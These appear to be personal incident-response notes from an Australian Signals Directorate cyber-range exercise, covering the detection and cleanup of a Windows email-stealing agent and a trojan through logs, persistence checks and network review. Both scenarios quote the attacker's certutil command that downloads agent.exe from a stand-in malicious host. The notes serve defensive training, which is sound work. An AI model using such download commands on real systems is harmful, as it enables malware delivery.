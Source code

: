 <!--
Title: ASD Live Fire Exchange Programme (GitHub Markdown Version)
Author: Simon .I
Version: 2025.03.30
Description: GitHub-compatible Markdown (GHM) version using supported HTML like <details> and <table>.
-->

<!-- ASD Programme Title -->
<h1 align="center"><strong style="font-size: 4.5rem; letter-spacing: 4px; color: navy;">Australian Signals Directorate - Live Fire Exchange Program</strong></h1>

<p><strong>These are my personal notes from the <em>ASD Live Fire Cyberbitrange</em> event. This document is not provided by or affiliated with the <em>Australian Signals Directorate (ASD)</em> or <em>CyberbitRange</em>.</strong></p>

---

<details>

<summary><strong>🌐 LFE 1 Bangalore – Email Dumper</strong></summary>

### 🔎 Scenario: Email Dumper

A suspicious alert has been triggered on a Windows host. The attacker used native Windows tools such as PowerShell and Certutil to drop and execute a payload (`agent.exe`) designed to steal Outlook email data. Your objective is to identify the source of compromise, track how the malware was deployed, and remove its persistence mechanisms.

---

### 📊 Key Event IDs

| Event Source | ID   | Description              |
|--------------|------|--------------------------|
| Sysmon       | 1    | Process Creation         |
| Sysmon       | 3    | Network Connection       |
| Sysmon       | 11   | File Created             |
| Security Log | 4688 | Windows Process Creation |

---

### 🧱 Step 1: Initial Process Review

Use Task Manager or PowerShell to check for suspicious processes:

```powershell
taskmgr
```

```powershell
tasklist | findstr /i "powershell certutil agent cmd"
```

Kill suspicious processes:

```powershell
taskkill /F /PID <PID>
```

Use Process Hacker (if available) to review the process tree:

> Look for:
> ```
> winword.exe → powershell.exe → certutil.exe → agent.exe
> ```

---

### 📜 Step 2: Log Review (Event Viewer or Sysmon)

Open Event Viewer:

```powershell
eventvwr
```

Navigate to:

```
Windows Logs > Security > Event ID 4688
```

Or use Sysmon (if configured) to find:

- **Event ID 1**: Process creation
- **Event ID 11**: File creation (`agent.exe`)
- **Event ID 3**: Outbound connections

Check for execution of:

- `certutil.exe` with URL
- `powershell.exe -enc`
- Creation of agent.exe in Roaming

---

### 🧪 Step 3: Certutil Abuse

Attacker downloads a payload using built-in `certutil`:

```powershell
certutil -urlcache -split -f http://malicious.site/agent.exe agent.exe
```

Check typical drop paths:

```powershell
Get-ChildItem -Path "C:\Users\<user>\AppData\Roaming" -Include agent.exe -Recurse
```

Check for file creation via timestamp:

```powershell
Get-Item "C:\Users\<user>\AppData\Roaming\agent.exe" | Select-Object Name, CreationTime, LastAccessTime
```

---

### 🧬 Step 4: Obfuscated PowerShell Decoding

Check for encoded PowerShell:

```powershell
powershell.exe -enc <Base64>
```

Decode:

```powershell
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("<Base64>"))
```

Look for chained execution commands (e.g., `iex`, `Start-Process`, `DownloadString`).

---

### 🗓 Step 5: Check for Persistence – Scheduled Tasks

List all tasks and identify any that run suspicious commands:

```powershell
schtasks /query /fo LIST /v
```

Check for tasks running `agent.exe`, `powershell`, or `.bat` files.

Remove if confirmed malicious:

```powershell
Unregister-ScheduledTask -TaskName "<SuspiciousTaskName>" -Confirm:$false
```

---

### 🧼 Step 6: Check for Persistence – Registry Autoruns

Query auto-run keys:

```powershell
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
```

Remove malicious entries:

```powershell
reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v "<BadEntry>" /f
```

---

### 🌐 Step 7: Network Connections

Check for outbound connections or C2 channels:

```powershell
netstat -bano
```

Match PID with:

```powershell
tasklist | findstr <PID>
```

---

### 📂 Step 8: Investigate Email Data Access

Search for email data files likely targeted by the malware:

```powershell
Get-ChildItem -Path "C:\Users" -Include *.pst,*.ost -File -Recurse -ErrorAction SilentlyContinue
```

Check last access time to confirm if they were read:

```powershell
Get-Item "C:\Users\<user>\AppData\Local\Microsoft\Outlook\*.ost" | Select-Object Name, LastAccessTime
```

---

### ✅ Step 9: Remediation

```powershell
taskkill /F /PID <PID>
Remove-Item -Path "C:\Users\<user>\AppData\Roaming\agent.exe" -Force
Unregister-ScheduledTask -TaskName "<Name>" -Confirm:$false
```

---

### 🧠 Key Takeaways

- Certutil can be weaponised to download files without AV alerts (LOLBAS)
- Outlook `.ost`/`.pst` files can be silently accessed and exfiltrated
- Base64-encoded PowerShell is used to obscure malicious scripts
- Persistence is commonly set via scheduled tasks or registry autoruns
- Event Logs and Sysmon are essential to trace the full execution path

</details>

---

<details>

<summary><strong>🌋 LFE 2 Jakarta – Killer Trojan</strong></summary>

### 🔎 Scenario: Killer Trojan

A Trojan has infected a Windows host. The attacker uses native tools to download and execute the payload, set up persistence, and attempt to communicate externally. Your mission is to identify the infection vector, isolate the binary, confirm persistence, and clean it all up.

---

### 📊 Key Event IDs

| Event Source | ID   | Description              |
|--------------|------|--------------------------|
| Sysmon       | 1    | Process Creation         |
| Sysmon       | 3    | Network Connection       |
| Sysmon       | 11   | File Created             |
| Security Log | 4688 | Windows Process Creation |

---

### 🧱 Step 1: Identify Suspicious Processes

Check for known LOLBAS abuse or unknown executables:

```powershell
tasklist | findstr /i "powershell cmd certutil rundll32 regsvr32 agent"
```

Kill suspected malware:

```powershell
taskkill /F /PID <PID>
```

Inspect parent-child process chain using Process Hacker or Sysmon:

> Example:
> ```
> explorer.exe → powershell.exe → certutil.exe → agent.exe
> ```

---

### 📜 Step 2: Review Logs

Open Event Viewer or use Sysmon:

```powershell
eventvwr
```

Check:

- **Security Log → Event ID 4688**
- **Sysmon → Event ID 1 (Process), 11 (File), 3 (Network)**

Search for:

- certutil execution
- creation of `agent.exe`
- outbound connections to IP addresses

---

### 🧪 Step 3: Certutil Download Detection

Check for file downloads via:

```powershell
certutil -urlcache -split -f http://malicious.site/agent.exe agent.exe
```

Confirm presence in:

```powershell
C:\Users\<user>\AppData\Roaming\
```

View file details:

```powershell
Get-Item "C:\Users\<user>\AppData\Roaming\agent.exe" | Select-Object Name, LastAccessTime
```

---

### 🧬 Step 4: Decode PowerShell (if used)

If the Trojan was executed via PowerShell `-enc`:

```powershell
powershell.exe -enc <Base64>
```

Decode and analyse:

```powershell
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("<Base64>"))
```

---

### 🗓 Step 5: Check Scheduled Task Persistence

List all scheduled tasks:

```powershell
schtasks /query /fo LIST /v
```

Look for tasks pointing to `agent.exe`, `.bat`, or obfuscated PowerShell.

Remove suspicious task:

```powershell
Unregister-ScheduledTask -TaskName "<SuspiciousTaskName>" -Confirm:$false
```

---

### 🧼 Step 6: Registry Persistence

Check common run keys:

```powershell
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
```

Delete persistence entry:

```powershell
reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v "<BadEntry>" /f
```

---

### 🌐 Step 7: Network Connection Analysis

Identify active connections:

```powershell
netstat -bano
```

Then map PIDs to:

```powershell
tasklist | findstr <PID>
```

> Look for C2 communication or reverse shell activity.

---

### 📁 Step 8: Search for Email Data or Artefacts

Check for `.pst`/`.ost` files that may have been targeted or staged for exfil:

```powershell
Get-ChildItem -Path C:\Users -Include *.pst,*.ost -File -Recurse -ErrorAction SilentlyContinue
```

Check access timestamps:

```powershell
Get-Item "<fullpath>" | Select-Object Name, LastAccessTime
```

---

### ✅ Step 9: Remediate

```powershell
taskkill /F /PID <PID>
Remove-Item -Path "C:\Users\<user>\AppData\Roaming\agent.exe" -Force
Unregister-ScheduledTask -TaskName "<Name>" -Confirm:$false
reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v "<BadEntry>" /f
```

---

### 🧠 Key Takeaways

- Certutil was used for payload download — a common red flag
- Registry and scheduled tasks were used to persist the agent
- File access timestamps are key to confirming data staging or theft
- Agent may behave like an info-stealer, focusing on Outlook data
- Use parent-child process maps and Sysmon to trace infection paths

</details>

---
